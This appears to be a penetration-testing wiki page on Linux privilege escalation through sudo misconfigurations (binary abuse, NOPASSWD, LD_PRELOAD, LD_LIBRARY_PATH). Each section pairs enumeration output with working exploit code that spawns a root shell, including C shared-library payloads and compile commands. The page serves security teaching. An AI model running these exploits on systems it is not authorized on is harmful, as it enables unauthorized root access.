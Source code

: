 # SUDO Misconfigurations  

## Theory  

`sudo` is a widely used tools that allows regular users to execute commands with elevated privileges on Linux. Privileges escalation can occur when the configuration of sudo is not properly managed.

## Practice  


### Sudo Binary Abuse

{% tabs %}
{% tab title="Enumerate" %}
If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Check what binary you can run with sudo.
```bash
$ sudo -l

User demo may run the following commands on crashlab:
    (root): /usr/bin/awk
```
{% endtab %}
{% tab title="Exploit" %}
If you can run a binary with sudo rights, you may want to have look at [GTFOBins](https://gtfobins.github.io/), a curated list of Unix binaries that can be exploited to bypass local security restrictions.
In this case with `awk`, we can spawn a shell with following commands:
```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```
{% endtab %}
{% endtabs %}


### NOPASSWD  

{% tabs %}
{% tab title="Enumerate" %}
The following `sudo` configuration allow an user to execute some command with another user's privileges without knowing the password.
```bash
$ sudo -l

User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
```
{% endtab %}
{% tab title="Exploit" %}
If you can run a binary with sudo rights, you may want to have look at [GTFOBins](https://gtfobins.github.io/), a curated list of Unix binaries that can be exploited to bypass local security restrictions.
In this case with `vim`, we can spawn a shell with following commands:
```bash
sudo -u root vim -c '!sh'
```
{% endtab %}
{% endtabs %}

### LD_PRELOAD  

{% tabs %}
{% tab title="Enumerate" %}
`LD_PRELOAD` is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library (libc.so) This is called preloading a library.  

If `env_keep+=LD_PRELOAD` is explicitly defined in the `sudo -l` output and you can call some command with sudo, you can escalate your privileges.
```bash
$ sudo -l
env_reset, env_keep+=LD_PRELOAD
User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/find
```

{% endtab %}
{% tab title="Exploit" %}
To abuse it we can write a shared library
```c
//Saved as /tmp/privEsc.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash -p");
}
```

compile it
```bash
gcc -fPIC -shared -o privEsc.so /tmp/privEsc.c -nostartfiles
```

Then run the sudo binary with `LD_PRELOAD` environement variable
```bash
#Use any command you can run with sudo
sudo LD_PRELOAD=./privEsc.so <COMMAND>

#Example
sudo LD_PRELOAD=./privEsc.so /usr/bin/find
```
{% endtab %}
{% endtabs %}


### LD_LIBRARY_PATH  

{% tabs %}
{% tab title="Enumerate" %}
the `LD_LIBRARY_PATH` env variable controls the path where libraries are going to be searched.  

If `env_keep+=LD_LIBRARY_PATH` is explicitly defined in the `sudo -l` output and you can call some command with sudo, you can escalate your privileges.
```bash
$ sudo -l
env_reset, env_keep+=LD_LIBRARY_PATH
User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/find
```

{% endtab %}
{% tab title="Exploit" %}
To abuse it we can do as follow

First, print the shared libraries of the sudo program. We will take `/usr/bin/find` as an example
```bash
$ ldd /usr/bin/find
        linux-vdso.so.1 (0x00007ffd627aa000)
        libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f6ebe9cc000)
        libm.so.6 => /lib/x86_64-linux-gnu/libm.so.6 (0x00007f6ebe8ed000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f6ebe70c000)
        libpcre2-8.so.0 => /lib/x86_64-linux-gnu/libpcre2-8.so.0 (0x00007f6ebe672000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f6ebea5f000)
```

Use one of the shared objects in the list and we will hijack it by creating a file with same name. For this demonstration, we will be targeting the `libpcre2-8.so.0` file.
```c
//Saved as /tmp/libpcre2-8.so.0.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

compile it
```bash
gcc -o /tmp/libpcre2-8.so.0 -shared -fPIC /tmp/libpcre2-8.so.0.c
```

Then run the sudo binary with `LD_LIBRARY_PATH` environement variable
```bash
#Use any command you can run with sudo
sudo LD_LIBRARY_PATH=/tmp <COMMAND>

#Example
sudo LD_LIBRARY_PATH=/tmp /usr/bin/find
```
{% endtab %}
{% endtabs %}


### References  

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#sudo" %}

{% embed url="https://atom.hackstreetboys.ph/linux-privilege-escalation-environment-variables/" %}